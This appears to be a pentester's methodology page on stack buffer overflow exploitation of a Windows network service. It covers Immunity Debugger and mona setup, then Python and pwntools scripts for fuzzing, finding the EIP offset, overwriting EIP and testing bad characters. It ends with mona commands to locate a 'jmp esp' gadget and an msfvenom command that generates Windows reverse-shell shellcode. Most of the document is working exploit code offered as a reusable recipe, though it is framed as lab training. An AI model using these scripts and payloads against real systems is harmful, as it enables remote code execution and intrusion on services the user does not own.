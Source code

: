 # My methodology

## Setup

### Immunity Debugger

Always run Immunity Debugger as Administrator if you can.

There are generally two ways to use Immunity Debugger to debug an application:

1. Using `File -> Attach` to attack the debugger to the running process.
2. Or by opening Immunity Debugger, and then using `File -> Open` to run the application.

When attaching to an application or opening an application in Immunity Debugger, the application will be paused. Click the "Run" button or press F9.

### Mona Setup

Mona is a powerful plugin for Immunity Debugger that makes exploiting buffer overflows much easier. Download: [:download:\`mona.py &lt;../\_static/files/mona.py&gt;\`](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst#id1)The latest version can be downloaded here: [https://github.com/corelan/mona](https://github.com/corelan/mona)The manual can be found here: [https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)

Copy the mona.py file into the PyCommands directory of Immunity Debugger \(usually located at C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands\).

In Immunity Debugger, type the following to set a working directory for mona.

```text
!mona config -set workingfolder c:\mona\%p
```

## Spiking/Fuzzing

The following Python script can be modified and used to fuzz remote entry points to an application. It will send increasingly long buffer strings in the hope that one eventually crashes the application.

```python
import socket, time, sys

ip = "127.0.0.1"
port = 9999
timeout = 2
buffer_step = 100
buffer_size_max = 3000

buffer = ""

for i in range(0,buffer_size_max, buffer_step):
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        s.send("HTER "+buffer[:i]+"\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

Check that the EIP register has been overwritten by A's \(\x41\). Make a note of any other registers that have either been overwritten, or are pointing to space in memory which has been overwritten.

### Boofuzz

```python
#!/usr/bin/env python3
from boofuzz import *

RHOST = "127.0.0.1"
RPORT = 9999

s = Session(target=Target(connection=SocketConnection(RHOST,RPORT,proto="tcp")))

s_initialize("FUZZER")
s_string("change_me", fuzzable=False)
s_delim(" ", fuzzable=False)
s_string("fuzzme")

s.connect(s_get("FUZZER"))
s.fuzz()
```

## Finding offset of EIP

```python
#!/usr/bin/env python3
from pwn import *

RHOST = "127.0.0.1"
RPORT = 9999

# pwn cyclic 4000
# OR msf-pattern_create -l 4000
cyclic_pattern = b"..."

s = remote(RHOST,RPORT)

payload = b"".join([
    b"change_me ",
    cyclic_pattern
])

s.send(payload)
s.interactive()
```

## Overwriting EIP

Now we can overwrite EIP with four 2's \(0x32323232\).

```python
#!/usr/bin/env python3
from pwn import *

RHOST = "127.0.0.1"
RPORT = 9999

offset = 2014

s = remote(RHOST,RPORT)

payload = b"".join([
    b"change_me ",
    b"1"*2014,
    b"2"*4
])

s.send(payload)
s.interactive()
```

## Finding bad characters

To be able to find "bad" characters, we'll send all 256 bytes and then search in debugger for anomalies

```python
#!/usr/bin/env python3
from pwn import *

RHOST = "127.0.0.1"
RPORT = 9999

badchars = b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"+
b"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"+
b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"+
b"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"+
b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"+
b"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"+
b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"+
b"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"+
b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"+
b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"+
b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"+
b"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"+
b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"+
b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"+
b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"+
b"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

s = remote(RHOST,RPORT)

payload = b"".join([
    b"change_me ",
    badchars
])

s.send(payload)
s.interactive()
```

## Finding the right module

You can list modules with `!mona modules` command, and find unsecured module.

Then try to find position of `jmp esp` instruction\(`FF E4`\)

```text
!mona jmp -r esp
!mona find -s "\xff\xe4" -m <unsecure_module>
```

## Generating shellcode

Generating shellcode with msfvenom is easy.

```text
msfvenom -p <payload> LHOST=<lhost> LPORT=<lport> EXITFUNC=thread -f c -a <architecture> -b <bad_bytes>

# example
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=8990 EXITFUNC=thread -f c -a x86 -b "\x00"
```

## Root

Setup your listener, run the exploit, profit.

